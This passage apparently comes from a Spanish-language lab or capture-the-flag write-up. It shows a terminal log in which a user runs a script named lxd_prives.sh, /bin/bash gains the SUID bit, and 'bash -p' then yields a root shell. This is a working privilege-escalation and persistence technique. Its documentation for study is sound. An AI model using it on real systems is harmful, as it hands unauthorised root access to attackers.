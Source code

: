 Esto es para hacer la bash `SUID` y ganar acceso facilmente

```bash
joestar@tank1:~$ nano lxd_prives.sh 
joestar@tank1:~$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1099016 Nov 15  2016 /bin/bash
joestar@tank1:~$ bash -p
bash-4.4# whoami
root
bash-4.4# 
```
